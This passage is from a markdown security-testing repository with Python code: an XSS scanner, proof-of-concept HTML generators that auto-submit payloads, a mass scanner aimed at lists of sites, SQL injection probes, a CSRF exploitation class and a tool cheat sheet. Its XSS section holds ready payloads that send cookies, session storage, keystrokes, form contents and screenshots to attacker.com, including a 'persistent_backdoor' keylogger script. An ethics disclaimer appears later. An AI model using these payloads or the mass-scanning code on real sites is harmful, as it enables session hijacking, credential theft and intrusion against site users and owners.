    def comprehensive_xss_test(self, parameter_list):
        """Comprehensive XSS testing across multiple parameters"""
        results = []
        
        def test_parameter(param):
            param_results = []
            
            # Test basic payloads
            for category, payloads in self.payloads.items():
                for payload in payloads:
                    result = self.test_xss_payload(param, payload)
                    if result['vulnerable']:
                        param_results.append(result)
                        print(f"[+] XSS found in {param}: {payload[:50]}...")
            
            # Test polyglot payloads
            for payload in self.polyglot_payloads():
                result = self.test_xss_payload(param, payload)
                if result['vulnerable']:
                    param_results.append(result)
                    print(f"[+] Polyglot XSS found in {param}")
            
            return {param: param_results}
        
        # Multi-threaded testing
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = [executor.submit(test_parameter, param) for param in parameter_list]
            
            for future in futures:
                result = future.result()
                results.append(result)
        
        return results
    
    def generate_xss_poc(self, vulnerability_info):
        """Generate XSS Proof of Concept"""
        param = vulnerability_info['parameter']
        payload = vulnerability_info['payload']
        method = vulnerability_info['method']
        
        if method.upper() == 'GET':
            poc_url = f"{self.target}?{param}={urllib.parse.quote(payload)}"
            poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>XSS Proof of Concept</title>
</head>
<body>
    <h1>Cross-Site Scripting (XSS) PoC</h1>
    <p><strong>Target:</strong> {self.target}</p>
    <p><strong>Parameter:</strong> {param}</p>
    <p><strong>Payload:</strong> {payload}</p>
    
    <h2>Automatic Execution</h2>
    <iframe src="{poc_url}" width="100%" height="400"></iframe>
    
    <h2>Manual Execution</h2>
    <a href="{poc_url}" target="_blank">Click here to trigger XSS</a>
    
    <script>
        // Automatic execution after 2 seconds
        setTimeout(function() {{
            window.open("{poc_url}", "_blank");
        }}, 2000);
    </script>
</body>
</html>
'''
        else:
            poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>XSS Proof of Concept - POST</title>
</head>
<body>
    <h1>Cross-Site Scripting (XSS) PoC</h1>
    <p><strong>Target:</strong> {self.target}</p>
    <p><strong>Parameter:</strong> {param}</p>
    <p><strong>Payload:</strong> {payload}</p>
    
    <form id="xssForm" action="{self.target}" method="POST" target="xssFrame">
        <input type="hidden" name="{param}" value="{payload}">
        <input type="submit" value="Execute XSS">
    </form>
    
    <iframe name="xssFrame" width="100%" height="400"></iframe>
    
    <script>
        // Automatic form submission
        document.addEventListener('DOMContentLoaded', function() {{
            setTimeout(function() {{
                document.getElementById('xssForm').submit();
            }}, 1000);
        }});
    </script>
</body>
</html>
'''
        
        return poc_html
    
    def advanced_xss_exploitation(self, vulnerability_info):
        """Advanced XSS exploitation techniques"""
        exploitation_payloads = {
            'cookie_theft': f'<script>fetch("http://attacker.com/steal?cookie="+document.cookie)</script>',
            'session_hijacking': f'<script>fetch("http://attacker.com/session",{{method:"POST",body:JSON.stringify({{cookie:document.cookie,url:location.href,localStorage:localStorage,sessionStorage:sessionStorage}})}});</script>',
            'keylogger': f'<script>document.addEventListener("keypress",function(e){{fetch("http://attacker.com/keys?key="+e.key+"&url="+location.href);}});</script>',
            'form_hijacking': f'<script>document.addEventListener("submit",function(e){{var formData=new FormData(e.target);var data={{}};for(var pair of formData.entries()){{data[pair[0]]=pair[1];}}fetch("http://attacker.com/forms",{{method:"POST",body:JSON.stringify(data)}});}});</script>',
            'screenshot_capture': f'<script>html2canvas(document.body).then(function(canvas){{fetch("http://attacker.com/screenshot",{{method:"POST",body:canvas.toDataURL()}});}});</script>',
            'persistent_backdoor': f'''<script>
(function(){{
    var backdoor = {{
        init: function() {{
            this.setupKeylogger();
            this.setupFormHijacker();
            this.setupCookieThief();
            this.heartbeat();
        }},
        setupKeylogger: function() {{
            var keys = "";
            document.addEventListener("keypress", function(e) {{
                keys += String.fromCharCode(e.which);
                if (keys.length > 100) {{
                    backdoor.sendData("keylog", btoa(keys));
                    keys = "";
                }}
            }});
        }},
        setupFormHijacker: function() {{
            document.addEventListener("submit", function(e) {{
                var formData = new FormData(e.target);
                var data = {{}};
                for (var pair of formData.entries()) {{
                    data[pair[0]] = pair[1];
                }}
                backdoor.sendData("form", JSON.stringify(data));
            }});
        }},
        setupCookieThief: function() {{
            setInterval(function() {{
                backdoor.sendData("cookie", document.cookie);
            }}, 30000);
        }},
        heartbeat: function() {{
            setInterval(function() {{
                backdoor.sendData("heartbeat", "alive");
            }}, 60000);
        }},
        sendData: function(type, data) {{
            fetch("http://attacker.com/collect", {{
                method: "POST",
                body: JSON.stringify({{
                    type: type,
                    data: data,
                    url: location.href,
                    timestamp: new Date().toISOString()
                }})
            }}).catch(function() {{
                new Image().src = "http://attacker.com/collect?type=" + type + "&data=" + encodeURIComponent(data);
            }});
        }}
    }};
    backdoor.init();
}})();
</script>'''
        }
        
        return exploitation_payloads

# XSS Automation Framework
class XSSAutomationSuite:
    def __init__(self, target_list):
        self.targets = target_list
        self.results = []
        
    def discover_parameters(self, url):
        """Discover input parameters from forms and URLs"""
        parameters = set()
        
        try:
            response = requests.get(url, timeout=10)
            soup = BeautifulSoup(response.text, 'html.parser')
            
            # Find form parameters
            forms = soup.find_all('form')
            for form in forms:
                inputs = form.find_all(['input', 'textarea', 'select'])
                for input_tag in inputs:
                    name = input_tag.get('name')
                    if name:
                        parameters.add(name)
            
            # Common parameter names
            common_params = [
                'q', 'search', 'query', 'keyword', 'term', 'name', 'email',
                'message', 'comment', 'feedback', 'input', 'data', 'value',
                'text', 'content', 'description', 'title', 'subject'
            ]
            parameters.update(common_params)
            
        except Exception as e:
            print(f"Error discovering parameters: {e}")
        
        return list(parameters)
    
    def run_mass_xss_testing(self):
        """Run mass XSS testing across multiple targets"""
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = []
            
            for target in self.targets:
                scanner = AdvancedXSSScanner(target)
                parameters = self.discover_parameters(target)
                future = executor.submit(scanner.comprehensive_xss_test, parameters)
                futures.append((target, future))
            
            for target, future in futures:
                try:
                    result = future.result(timeout=300)  # 5 minute timeout
                    if any(param_results for param_results in result if param_results):
                        self.results.append({
                            'target': target,
                            'vulnerabilities': result
                        })
                        print(f"[+] XSS vulnerabilities found in {target}")
                except Exception as e:
                    print(f"[!] Error testing {target}: {e}")
        
        return self.compile_xss_report()
    
    def compile_xss_report(self):
        """Compile comprehensive XSS testing report"""
        total_vulns = 0
        for result in self.results:
            for param_results in result['vulnerabilities']:
                for param, vulns in param_results.items():
                    total_vulns += len(vulns)
        
        return {
            'total_targets_tested': len(self.targets),
            'vulnerable_targets': len(self.results),
            'total_vulnerabilities': total_vulns,
            'vulnerability_breakdown': self.analyze_vulnerability_types(),
            'high_impact_findings': self.identify_high_impact_xss(),
            'detailed_results': self.results
        }
    
    def analyze_vulnerability_types(self):
        """Analyze types of XSS vulnerabilities found"""
        type_counts = {'reflected': 0, 'stored': 0, 'dom': 0}
        
        for result in self.results:
            for param_results in result['vulnerabilities']:
                for param, vulns in param_results.items():
                    for vuln in vulns:
                        # Simple classification based on context
                        if 'javascript' in vuln.get('contexts', []):
                            type_counts['dom'] += 1
                        elif vuln.get('method') == 'POST':
                            type_counts['stored'] += 1
                        else:
                            type_counts['reflected'] += 1
        
        return type_counts
    
    def identify_high_impact_xss(self):
        """Identify high-impact XSS findings"""
        high_impact = []
        
        for result in self.results:
            for param_results in result['vulnerabilities']:
                for param, vulns in param_results.items():
                    for vuln in vulns:
                        # Check for high-impact indicators
                        if ('admin' in result['target'].lower() or 
                            'login' in param.lower() or
                            vuln.get('method') == 'POST'):
                            
                            high_impact.append({
                                'target': result['target'],
                                'parameter': param,
                                'payload': vuln['payload'],
                                'impact_reason': 'Administrative interface or stored XSS'
                            })
        
        return high_impact

# Usage Example
if __name__ == "__main__":
    # Single target XSS testing
    scanner = AdvancedXSSScanner("http://vulnerable-site.com/search")
    
    # Test specific parameter
    result = scanner.test_xss_payload('q', '<script>alert("XSS")</script>')
    if result['vulnerable']:
        print(f"XSS Found: {result}")
        
        # Generate PoC
        poc = scanner.generate_xss_poc(result)
        with open('xss_poc.html', 'w') as f:
            f.write(poc)
        
        # Advanced exploitation
        exploits = scanner.advanced_xss_exploitation(result)
        print(f"Available exploits: {list(exploits.keys())}")
    
    # Comprehensive testing
    parameters = ['q', 'search', 'name', 'comment']
    comprehensive_results = scanner.comprehensive_xss_test(parameters)
    
    print(f"Comprehensive test completed. Found vulnerabilities in {len(comprehensive_results)} parameters")
    
    # Mass testing
    targets = [
        "http://site1.com/search",
        "http://site2.com/contact",
        "http://site3.com/feedback"
    ]
    
    automation = XSSAutomationSuite(targets)
    mass_results = automation.run_mass_xss_testing()
    
    print(f"Mass XSS testing completed:")
    print(f"Targets tested: {mass_results['total_targets_tested']}")
    print(f"Vulnerable targets: {mass_results['vulnerable_targets']}")
    print(f"Total vulnerabilities: {mass_results['total_vulnerabilities']}")
```

---

## 🛠️ Advanced Exploitation Scripts

### Multi-Vulnerability Scanner Framework

```python
#!/usr/bin/env python3
"""
Comprehensive Multi-Vulnerability Scanner
Author: S. Tamilselvan
Purpose: Automated detection of multiple vulnerability types
"""

import requests
import threading
import time
import json
import re
from concurrent.futures import ThreadPoolExecutor
from urllib.parse import urljoin, urlparse
import subprocess
import os

class ComprehensiveVulnerabilityScanner:
    def __init__(self, target_url, threads=20):
        self.target_url = target_url
        self.threads = threads
        self.session = requests.Session()
        self.vulnerabilities = {
            'xss': [],
            'sqli': [],
            'csrf': [],
            'ssrf': [],
            'lfi': [],
            'rce': [],
            'directory_traversal': [],
            'file_upload': [],
            'jwt': [],
            'xxe': []
        }
        
    def comprehensive_scan(self):
        """Run comprehensive vulnerability scan"""
        print(f"[*] Starting comprehensive scan of {self.target_url}")
        
        # Multi-threaded vulnerability testing
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = [
                executor.submit(self.scan_xss),
                executor.submit(self.scan_sqli),
                executor.submit(self.scan_csrf),
                executor.submit(self.scan_ssrf),
                executor.submit(self.scan_lfi),
                executor.submit(self.scan_rce),
                executor.submit(self.scan_directory_traversal),
                executor.submit(self.scan_file_upload),
                executor.submit(self.scan_jwt),
                executor.submit(self.scan_xxe)
            ]
            
            for future in futures:
                try:
                    future.result(timeout=300)
                except Exception as e:
                    print(f"[!] Scan error: {e}")
        
        return self.generate_comprehensive_report()
    
    def scan_xss(self):
        """XSS vulnerability scanning"""
        print("[*] Scanning for XSS vulnerabilities...")
        xss_payloads = [
            '<script>alert("XSS")</script>',
            '',
            '<svg onload=alert("XSS")>',
            '"><script>alert("XSS")</script>',
            "';alert('XSS');//"
        ]
        
        # Test common parameters
        params = ['q', 'search', 'name', 'comment', 'message', 'input']
        
        for param in params:
            for payload in xss_payloads:
                try:
                    response = self.session.get(
                        self.target_url,
                        params={param: payload},
                        timeout=10
                    )
                    
                    if payload in response.text:
                        self.vulnerabilities['xss'].append({
                            'parameter': param,
                            'payload': payload,
                            'url': response.url,
                            'method': 'GET'
                        })
                        print(f"[+] XSS found: {param} -> {payload[:30]}...")
                        
                except Exception:
                    continue
    
    def scan_sqli(self):
        """SQL Injection vulnerability scanning"""
        print("[*] Scanning for SQL Injection vulnerabilities...")
        sqli_payloads = [
            "'",
            "' OR '1'='1",
            "' UNION SELECT 1,2,3--",
            "'; DROP TABLE users--",
            "' AND SLEEP(5)--"
        ]
        
        params = ['id', 'user', 'search', 'category', 'page']
        
        for param in params:
            for payload in sqli_payloads:
                try:
                    start_time = time.time()
                    response = self.session.get(
                        self.target_url,
                        params={param: payload},
                        timeout=15
                    )
                    response_time = time.time() - start_time
                    
                    # Check for SQL errors
                    sql_errors = [
                        'sql syntax', 'mysql', 'postgresql', 'oracle',
                        'sqlite', 'mssql', 'syntax error'
                    ]
                    
                    if any(error in response.text.lower() for error in sql_errors):
                        self.vulnerabilities['sqli'].append({
                            'parameter': param,
                            'payload': payload,
                            'type': 'error_based',
                            'evidence': 'SQL error in response'
                        })
                        print(f"[+] SQL Injection found: {param} -> Error-based")
                    
                    # Check for time-based
                    elif response_time > 4 and 'SLEEP' in payload:
                        self.vulnerabilities['sqli'].append({
                            'parameter': param,
                            'payload': payload,
                            'type': 'time_based',
                            'response_time': response_time
                        })
                        print(f"[+] SQL Injection found: {param} -> Time-based")
                        
                except Exception:
                    continue
    
    def generate_comprehensive_report(self):
        """Generate comprehensive vulnerability report"""
        total_vulns = sum(len(vulns) for vulns in self.vulnerabilities.values())
        
        report = {
            'target': self.target_url,
            'scan_date': time.strftime('%Y-%m-%d %H:%M:%S'),
            'total_vulnerabilities': total_vulns,
            'vulnerability_summary': {
                vuln_type: len(vulns) 
                for vuln_type, vulns in self.vulnerabilities.items()
            },
            'detailed_findings': self.vulnerabilities,
            'risk_assessment': self.calculate_risk_score(),
            'recommendations': self.generate_recommendations()
        }
        
        return report
    
    def calculate_risk_score(self):
        """Calculate overall risk score"""
        risk_weights = {
            'sqli': 10,
            'rce': 10,
            'xss': 7,
            'csrf': 6,
            'ssrf': 8,
            'lfi': 8,
            'directory_traversal': 6,
            'file_upload': 9,
            'jwt': 7,
            'xxe': 8
        }
        
        total_score = 0
        for vuln_type, vulns in self.vulnerabilities.items():
            total_score += len(vulns) * risk_weights.get(vuln_type, 5)
        
        if total_score >= 50:
            return {'score': total_score, 'level': 'Critical'}
        elif total_score >= 30:
            return {'score': total_score, 'level': 'High'}
        elif total_score >= 15:
            return {'score': total_score, 'level': 'Medium'}
        else:
            return {'score': total_score, 'level': 'Low'}

# Additional vulnerability scanners would be implemented here...
```

---

## 🛠️ Professional Tools & Resources

### Essential Security Testing Tools

#### **Automated Scanners**
| Tool | Category | Purpose | Effectiveness |
|------|----------|---------|---------------|
| **OWASP ZAP** | Web Scanner | Comprehensive web app security testing | High |
| **Burp Suite Professional** | Web Scanner | Manual and automated testing | Very High |
| **Nikto** | Web Scanner | Web server vulnerability scanning | Medium |
| **SQLMap** | SQL Injection | Automated SQL injection testing | Very High |
| **Nuclei** | Vulnerability Scanner | Fast vulnerability detection | High |
| **Nessus** | Network Scanner | Network vulnerability assessment | High |
| **OpenVAS** | Vulnerability Scanner | Open-source vulnerability scanning | Medium |

#### **Manual Testing Tools**
| Tool | Purpose | Use Case |
|------|---------|----------|
| **Burp Suite** | Proxy/Interceptor | Manual web app testing |
| **OWASP WebGoat** | Training | Vulnerable app for practice |
| **Damn Vulnerable Web Application (DVWA)** | Training | Practice environment |
| **Postman** | API Testing | REST API security testing |
| **curl** | Command Line | HTTP request manipulation |
| **Gobuster** | Directory Enumeration | Directory/file discovery |
| **Ffuf** | Fuzzing | Web fuzzing and enumeration |

#### **Specialized Security Tools**
```bash
# Directory Enumeration
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -x php,html,js,txt

# Subdomain Enumeration
subfinder -d target.com | httpx -title -tech-detect -status-code

# SQL Injection Testing
sqlmap -u "http://target.com/page.php?id=1" --batch --dbs

# XSS Testing
dalfox url http://target.com/search?q=FUZZ

# SSRF Testing
ssrfmap -r request.txt -p url -m readfiles

# JWT Testing
jwt-tool -t http://target.com/api -rh "Authorization: Bearer TOKEN"

# API Testing
nuclei -u http://target.com -t /path/to/api-templates/

# SSL/TLS Testing
testssl.sh https://target.com

# Network Scanning
nmap -sC -sV -oA scan_results target.com

# Web Technology Detection
whatweb http://target.com
```

### Custom Security Testing Scripts

#### **Multi-Purpose Security Scanner**
```python
#!/usr/bin/env python3
"""
Professional Security Testing Suite
Author: S. Tamilselvan
"""

import argparse
import json
import sys
from datetime import datetime

class ProfessionalSecuritySuite:
    def __init__(self):
        self.version = "3.0"
        self.author = "S. Tamilselvan"
        
    def main(self):
        parser = argparse.ArgumentParser(
            description="Professional Web Application Security Testing Suite",
            formatter_class=argparse.RawDescriptionHelpFormatter,
            epilog="""
Examples:
  python3 security_suite.py -u https://target.com --all
  python3 security_suite.py -u https://target.com --xss --sqli
  python3 security_suite.py -f targets.txt --comprehensive
  python3 security_suite.py -u https://target.com --report-format json
            """
        )
        
        parser.add_argument('-u', '--url', help='Target URL')
        parser.add_argument('-f', '--file', help='File containing target URLs')
        parser.add_argument('--xss', action='store_true', help='Test for XSS')
        parser.add_argument('--sqli', action='store_true', help='Test for SQL Injection')
        parser.add_argument('--csrf', action='store_true', help='Test for CSRF')
        parser.add_argument('--ssrf', action='store_true', help='Test for SSRF')
        parser.add_argument('--all', action='store_true', help='Run all tests')
        parser.add_argument('--comprehensive', action='store_true', help='Comprehensive scan')
        parser.add_argument('--threads', type=int, default=20, help='Number of threads')
        parser.add_argument('--timeout', type=int, default=10, help='Request timeout')
        parser.add_argument('--report-format', choices=['json', 'html', 'xml'], default='json')
        parser.add_argument('--output', help='Output file')
        parser.add_argument('--verbose', '-v', action='store_true', help='Verbose output')
        
        args = parser.parse_args()
        
        if not args.url and not args.file:
            parser.error("Either --url or --file must be specified")
        
        # Initialize scanner with arguments
        self.run_security_tests(args)
    
    def run_security_tests(self, args):
        """Run security tests based on arguments"""
        print(f"Professional Security Testing Suite v{self.version}")
        print(f"Author: {self.author}")
        print(f"Scan started: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
        print("-" * 60)
        
        # Implementation would continue here...

if __name__ == "__main__":
    suite = ProfessionalSecuritySuite()
    suite.main()
```

---

## 📚 Professional Resources & References

### Educational Resources

#### **Books & Publications**
- **"The Web Application Hacker's Handbook"** by Dafydd Stuttard & Marcus Pinto
- **"OWASP Testing Guide v4.2"** - Comprehensive testing methodology
- **"SQL Injection Attacks and Defense"** by Justin Clarke-Salt
- **"XSS Attacks: Cross Site Scripting Exploits and Defense"** by Seth Fogie
- **"The Tangled Web"** by Michal Zalewski
- **"Black Hat Python"** by Justin Seitz
- **"Gray Hat Hacking"** by Allen Harper et al.

#### **Online Training Platforms**
- **PortSwigger Web Security Academy** - Free comprehensive web security training
- **OWASP WebGoat** - Hands-on vulnerable application
- **HackerOne Hacktivity** - Real-world vulnerability reports
- **Bug Bounty Platforms** - Practical experience
- **Cybrary** - Free cybersecurity training
- **SANS Training** - Professional security courses

#### **Practice Environments**
- **DVWA (Damn Vulnerable Web Application)** - PHP/MySQL vulnerable app
- **WebGoat** - Java-based vulnerable application
- **Mutillidae** - PHP vulnerable web application
- **bWAPP** - Buggy Web Application
- **VulnHub** - Vulnerable virtual machines
- **HackTheBox** - Online penetration testing labs

### Professional Certifications

#### **Web Application Security Certifications**
- **OSCP (Offensive Security Certified Professional)** - Hands-on penetration testing
- **OSWE (Offensive Security Web Expert)** - Advanced web application testing
- **GWEB (GIAC Web Application Penetration Tester)** - Web app security specialist
- **CEH (Certified Ethical Hacker)** - General ethical hacking
- **CISSP (Certified Information Systems Security Professional)** - Security management

### Industry Standards & Frameworks

#### **Security Testing Standards**
- **OWASP Top 10** - Most critical web application security risks
- **OWASP ASVS** - Application Security Verification Standard
- **NIST Cybersecurity Framework** - Risk management framework
- **ISO 27001** - Information security management
- **PCI DSS** - Payment card industry security standards

#### **Vulnerability Databases**
- **CVE (Common Vulnerabilities and Exposures)** - Vulnerability database
- **NVD (National Vulnerability Database)** - US government vulnerability database
- **OWASP Vulnerability Database** - Web application vulnerabilities
- **Exploit Database** - Exploit and vulnerability archive

---

## ⚖️ Legal & Ethical Guidelines

### Responsible Security Research

#### **Legal Compliance Framework**
```
┌─────────────────────────────────────────────────────────────┐
│                    LEGAL COMPLIANCE CHECKLIST               │
├─────────────────────────────────────────────────────────────┤
│ ✓ Obtain explicit written authorization before testing      │
│ ✓ Define clear scope and boundaries                        │
│ ✓ Follow responsible disclosure practices                   │
│ ✓ Respect privacy and confidentiality                      │
│ ✓ Comply with local and international laws                 │
│ ✓ Maintain detailed documentation                          │
│ ✓ Report findings through proper channels                  │
│ ✓ Avoid causing damage or disruption                       │
└─────────────────────────────────────────────────────────────┘
```

#### **Ethical Guidelines**
1. **Authorization**: Only test systems you own or have explicit permission to test
2. **Scope**: Stay within defined testing boundaries and limitations
3. **Impact**: Minimize potential damage during security testing
4. **Documentation**: Maintain detailed records of all testing activities
5. **Reporting**: Follow responsible disclosure practices and timelines
6. **Privacy**: Respect user privacy and data protection regulations
7. **Professional Conduct**: Maintain high ethical standards in all activities

#### **Responsible Disclosure Timeline**
```mermaid
gantt
    title Responsible Disclosure Timeline
    dateFormat  X
    axisFormat %d
    
    section Discovery
    Vulnerability Found    :milestone, m1, 0, 0d
    
    section Initial Report
    Vendor Notification    :active, report, 1, 7d
    
    section Coordination
    Vendor Response        :response, 8, 30d
    Patch Development      :patch, 31, 60d
    
    section Disclosure
    Public Disclosure      :disclosure, 91, 7d
    Full Details Released  :details, 181, 1d
```

### Professional Ethics Code

#### **Core Principles**
- **Integrity**: Act honestly and transparently in all security research
- **Responsibility**: Consider the impact of research on individuals and organizations
- **Respect**: Honor the rights and dignity of all stakeholders
- **Excellence**: Strive for the highest quality in security research and testing
- **Accountability**: Take responsibility for actions and their consequences

---

## 📞 Contact & Support

**Security Researcher:** S. Tamilselvan  
**Specialization:** Advanced Web Application Security, Penetration Testing, Vulnerability Research  
**Research Focus:** Zero-Day Discovery, Advanced Persistent Threats, Defense Evasion  

### Professional Services
- **Security Assessments** - Comprehensive web application security testing
- **Penetration Testing** - Advanced manual and automated testing
- **Vulnerability Research** - Zero-day discovery and analysis
- **Security Training** - Professional security education and workshops
- **Incident Response** - Security breach investigation and remediation

---

## ⚠️ Important Disclaimer

This repository is created exclusively for **educational and research purposes**. The information, tools, and techniques described herein should only be used on systems you own or have explicit written permission to test.

### **Critical Legal Notice:**
- **Unauthorized access** to computer systems is illegal in most jurisdictions
- **Always obtain proper authorization** before conducting any security testing
- **Use this information responsibly** and in accordance with applicable laws
- **The author is not responsible** for any misuse of this information
- **This research is intended** to improve security awareness and defense capabilities

### **Professional Use Guidelines:**
- Follow all applicable laws and regulations in your jurisdiction
- Respect privacy and confidentiality requirements
- Adhere to responsible disclosure practices
- Maintain professional ethics in all security research activities
- Obtain proper insurance and legal protections for professional testing

### **Educational Purpose Statement:**
This framework is designed to help security professionals, developers, and researchers understand modern web application vulnerabilities and develop effective defense strategies. It should be used only in authorized testing environments and for legitimate security improvement purposes.

---

## 📄 License & Attribution

This project is licensed under the **MIT License** with additional ethical use requirements.

### **Attribution Requirements:**
- Credit must be given to S. Tamilselvan as the original author
- Any derivative works must maintain this attribution
- Commercial use requires explicit permission from the author
- Educational use is encouraged with proper attribution

### **Additional Terms:**
- This work may not be used for malicious purposes
- Users must comply with all applicable laws and regulations
- The author reserves the right to revoke usage rights for misuse

---

**Last Updated:** December 2024  
**Version:** 3.0 Enhanced Professional Edition  
**Maintained by:** S. Tamilselvan - Senior Security Researcher  
**Repository:** Advanced Web Application Security Research Framework

---

*"Security is not a product, but a process. It's more than just a technical problem; it's a people problem that requires continuous learning, adaptation, and ethical responsibility."* - Adapted from Bruce Schneier

**🔒 Remember: With great power comes great responsibility. Use these tools and techniques ethically and legally.**

---

## 🔒 CSRF (Cross-Site Request Forgery) - Complete Framework

### Advanced CSRF Attack Methodology

Cross-Site Request Forgery attacks exploit the trust that a web application has in a user's browser, forcing authenticated users to execute unwanted actions.

### CSRF Attack Flow Diagram



### Advanced CSRF Testing Framework

```python
#!/usr/bin/env python3
"""
Advanced CSRF Exploitation Framework
Author: S. Tamilselvan
Purpose: Comprehensive CSRF vulnerability assessment and exploitation
"""

import requests
import re
from bs4 import BeautifulSoup
import urllib.parse
import json
import time
from selenium import webdriver
from selenium.webdriver.common.by import By
import base64
import hashlib
import threading
from concurrent.futures import ThreadPoolExecutor

class AdvancedCSRFExploiter:
    def __init__(self, target_url, session_cookies=None):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
        self.csrf_tokens = {}
        self.operations = []
        
        if session_cookies:
            self.session.cookies.update(session_cookies)
    
    def discover_state_changing_operations(self):
        """Discover forms and AJAX endpoints that change application state"""
        print("[*] Discovering state-changing operations...")
        operations = []
        
        try:
            response = self.session.get(self.target_url)
            soup = BeautifulSoup(response.text, 'html.parser')
            
            # Find all forms
            forms = soup.find_all('form')
            for form in forms:
                action = form.get('action', '')
                method = form.get('method', 'GET').upper()
                
                # Focus on state-changing methods
                if method in ['POST', 'PUT', 'DELETE', 'PATCH']:
                    inputs = []
                    for input_tag in form.find_all(['input', 'textarea', 'select']):
                        input_info = {
                            'name': input_tag.get('name'),
                            'type': input_tag.get('type', 'text'),
                            'value': input_tag.get('value', ''),
                            'required': input_tag.has_attr('required')
                        }
                        inputs.append(input_info)
                    
                    operations.append({
                        'type': 'form',
                        'action': urllib.parse.urljoin(self.target_url, action),
                        'method': method,
                        'inputs': inputs,
                        'csrf_token': self.extract_csrf_token(form),
                        'form_html': str(form)
                    })
            
            # Find AJAX endpoints through JavaScript analysis
            script_tags = soup.find_all('script')
            for script in script_tags:
                if script.string:
                    ajax_endpoints = self.extract_ajax_endpoints(script.string)
                    operations.extend(ajax_endpoints)
        
        except Exception as e:
            print(f"Error discovering operations: {e}")
        
        self.operations = operations
        return operations
    
    def extract_csrf_token(self, form_element):
        """Extract CSRF token from form"""
        csrf_patterns = [
            'csrf_token', 'csrfmiddlewaretoken', '_token', 
            'authenticity_token', '__RequestVerificationToken',
            'csrf', '_csrf', 'token', 'nonce'
        ]
        
        for pattern in csrf_patterns:
            token_input = form_element.find('input', {'name': re.compile(pattern, re.IGNORECASE)})
            if token_input:
                return {
                    'name': token_input.get('name'),
                    'value': token_input.get('value'),
                    'type': 'form_field'
                }
        
        # Check for token in meta tags
        meta_token = form_element.find_parent().find('meta', {'name': re.compile('csrf', re.IGNORECASE)})
        if meta_token:
            return {
                'name': meta_token.get('name'),
                'value': meta_token.get('content'),
                'type': 'meta_tag'
            }
        
        return None
    
    def extract_ajax_endpoints(self, script_content):
        """Extract AJAX endpoints from JavaScript"""
        endpoints = []
        
        ajax_patterns = [
            r'\.ajax\(\s*{\s*["\']?url["\']?\s*:\s*["\']([^"\']+)["\']',
            r'fetch\(["\']([^"\']+)["\']',
            r'XMLHttpRequest.*open\(["\'](\w+)["\'],\s*["\']([^"\']+)["\']',
            r'\$\.post\(["\']([^"\']+)["\']',
            r'\$\.get\(["\']([^"\']+)["\']'
        ]
        
        for pattern in ajax_patterns:
            matches = re.findall(pattern, script_content, re.IGNORECASE)
            for match in matches:
                if isinstance(match, tuple):
                    method, url = match[0], match[1] if len(match) > 1 else match[0]
                else:
                    method, url = 'POST', match
                
                endpoints.append({
                    'type': 'ajax',
                    'action': urllib.parse.urljoin(self.target_url, url),
                    'method': method.upper(),
                    'detected_in': 'javascript'
                })
        
        return endpoints
    
    def analyze_csrf_protection(self, operation):
        """Analyze CSRF protection mechanisms"""
        print(f"[*] Analyzing CSRF protection for {operation['action']}")
        
        protection_analysis = {
            'csrf_token': False,
            'samesite_cookie': False,
            'referer_validation': False,
            'custom_headers': False,
            'double_submit_cookie': False,
            'origin_validation': False
        }
        
        # Check for CSRF token
        if operation.get('csrf_token'):
            protection_analysis['csrf_token'] = True
            
            # Test token validation strength
            token_strength = self.test_token_validation(operation)
            protection_analysis['token_strength'] = token_strength
        
        # Check SameSite cookie attribute
        response = self.session.get(operation['action'])
        set_cookie_headers = response.headers.get('Set-Cookie', '')
        if 'SameSite=Strict' in set_cookie_headers or 'SameSite=Lax' in set_cookie_headers:
            protection_analysis['samesite_cookie'] = True
        
        # Test referer validation
        referer_test = self.test_referer_validation(operation)
        protection_analysis['referer_validation'] = referer_test
        
        # Test origin validation
        origin_test = self.test_origin_validation(operation)
        protection_analysis['origin_validation'] = origin_test
        
        # Test custom headers requirement
        custom_header_test = self.test_custom_headers(operation)
        protection_analysis['custom_headers'] = custom_header_test
        
        return protection_analysis
    
    def test_token_validation(self, operation):
        """Test CSRF token validation strength"""
        if not operation.get('csrf_token'):
            return 'no_token'
        
        original_token = operation['csrf_token']['value']
        test_results = {}
        
        # Test 1: Remove token completely
        test_results['no_token'] = self.test_request_without_token(operation)
        
        # Test 2: Empty token
        test_results['empty_token'] = self.test_request_with_token(operation, '')
        
        # Test 3: Invalid token
        test_results['invalid_token'] = self.test_request_with_token(operation, 'invalid_token_123')
        
        # Test 4: Token from different session
        test_results['different_session'] = self.test_token_from_different_session(operation)
        
        # Test 5: Reused token
        test_results['reused_token'] = self.test_token_reuse(operation)
        
        # Test 6: Token manipulation
        test_results['token_manipulation'] = self.test_token_manipulation(operation, original_token)
        
        # Analyze results
        if test_results['no_token']:
            return 'weak_no_validation'
        elif test_results['empty_token'] or test_results['invalid_token']:
            return 'weak_basic_validation'
        elif test_results['different_session']:
            return 'medium_session_validation'
        elif test_results['token_manipulation']:
            return 'weak_token_generation'
        else:
            return 'strong_validation'
    
    def test_request_without_token(self, operation):
        """Test request without CSRF token"""
        try:
            data = self.prepare_request_data(operation, include_token=False)
            response = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                allow_redirects=False
            )
            return self.is_request_successful(response)
        except:
            return False
    
    def test_request_with_token(self, operation, token_value):
        """Test request with specific token value"""
        try:
            data = self.prepare_request_data(operation, token_value=token_value)
            response = self.session.request(
                operation['method'],
                operation['action'],
                data=data,
                allow_redirects=False
            )
